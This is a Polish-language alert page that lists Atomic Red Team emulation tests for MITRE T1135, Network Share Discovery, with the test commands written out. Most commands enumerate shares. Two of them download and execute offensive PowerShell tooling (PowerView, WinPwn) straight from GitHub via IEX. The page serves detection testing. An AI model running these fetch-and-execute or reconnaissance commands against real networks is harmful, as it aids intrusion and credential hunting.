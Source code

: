 # Alert: Network Share Discovery

Opis scenariusza, podatności lub techniki.

---

**Technika:** T1135  
**Nazwa:** Network Share Discovery  
**Taktyki:** Discovery  
**Status:** Pending  
**Autor:** Krzysztof K.  

---

<!--
Tactics: Discovery
Technique ID: T1135
Technique Name: Network Share Discovery
Status: Pending
--> 


---

## Atomic Red Team – dostępne testy dla tej techniki

### Network Share Discovery command prompt
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
net view \\#{computer_name}
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1135\Network_Share_Discovery_command_prompt/test_1.cmd)

### Network Share Discovery PowerShell
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
get-smbshare
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1135\Network_Share_Discovery_PowerShell/test_1.ps1)

### View available share drives
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
net share
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1135\View_available_share_drives/test_1.cmd)

### Share Discovery with PowerView
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-DomainShare -CheckShareAccess -Verbose
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1135\Share_Discovery_with_PowerView/test_1.ps1)

### PowerView ShareFinder
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
Invoke-ShareFinder #{parameters}
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1135\PowerView_ShareFinder/test_1.ps1)

### WinPwn - shareenumeration
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
shareenumeration -noninteractive -consoleoutput
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1135\WinPwn_-_shareenumeration/test_1.ps1)

### Network Share Discovery via dir command
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
dir \\#{computer_ip}\c$
dir \\#{computer_ip}\admin$
dir \\#{computer_ip}\IPC$
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1135\Network_Share_Discovery_via_dir_command/test_1.cmd)

### Enumerate All Network Shares with SharpShares
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
cmd /c '#{sharp_path}' /ldap:all | out-file -filepath "#{output_path}"
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1135\Enumerate_All_Network_Shares_with_SharpS/test_1.ps1)

<b>Polecenia cleanup (powershell):</b>
```
remove-item "#{output_path}" -force -erroraction silentlycontinue
```
[Pobierz cleanup_1.ps1](../../scenarios/atomic_tests\T1135\Enumerate_All_Network_Shares_with_SharpS/cleanup_1.ps1)

### Enumerate All Network Shares with Snaffler
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
invoke-expression 'cmd /c start powershell -command { cmd /c "#{snaffler_path}" -a -o "#{output_path}" }; start-sleep 90; stop-process -name "snaffler"'
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1135\Enumerate_All_Network_Shares_with_Snaffl/test_1.ps1)

<b>Polecenia cleanup (powershell):</b>
```
remove-item "#{output_path}" -force -erroraction silentlycontinue
```
[Pobierz cleanup_1.ps1](../../scenarios/atomic_tests\T1135\Enumerate_All_Network_Shares_with_Snaffl/cleanup_1.ps1)

[Zobacz testy na GitHubie](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1135)
